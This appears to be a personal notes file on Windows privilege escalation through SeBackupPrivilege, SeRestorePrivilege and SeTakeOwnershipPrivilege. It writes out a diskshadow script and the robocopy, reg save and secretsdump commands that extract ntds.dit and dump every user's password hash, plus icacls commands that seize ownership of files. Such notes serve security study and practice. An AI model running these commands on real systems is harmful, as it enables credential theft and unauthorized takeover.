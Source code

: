 ## usually you just find services worth exploiting and then exploit them do priv esc but for a reference and as a compilation of my past experiences here is the notes
- first enumerate and gather all info
- using winpeas look for files/folders owned by system and we also have perms to read/write or execute refer to winpeas docs for the full form of codes displayed by winpeas over files/folders
- we can leverage services which create proccess with system privs and hence get a system shell

## escalation through certain privs
### SeBackupPrivilege and SeRestorePrivilege
If we have these 2 privs then what we can do is, we can create a backup of the C drive into some other drive of our choice(E drive here), this will also result in forming the backup of the C:\windows\ntds which we can use along with the master key extracted from system registry hive to decrypt the ntds file to get hashes of all users on that machine.
This can be done by 1st copying this into a txt file
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
and then using diskshadow to create a shadow copy(backup) of ther C drive via `diskshadow /s FILENAME.txt` FILENAME being the filename of the above txt file. Now our shadow copy is ready. Now we will use robocopy to copy the ntds from the E drive to our working directory via `robocopy /b E:\Windows\ntds . ntds.dit`. Now we have a copy of ntds, and are in need of the master key which needs the system registery hive, which can by saved via `reg save hklm\system "FULL PATH\system"` now we will transfer the ntds.dit file and system save file to our kali machine and use secretsdump's LOCAL mode to decrypt the ntds via `secretsdump.py LOCAL -ntds "PATH TO NTDS FILE" -system "PATH TO SYSTEM FILE"`

### SeTakeOwnershipPrivilege
Using this priv, we can simply take ownership of any file we want access to, and by taking ownership, we have full control over the object. We can take ownership of any object using icacls via 1st `icacls "FILENAME" /setowner "USERNAME"` and then `icacls "FILE NAME" /grant "USERNAME":F`

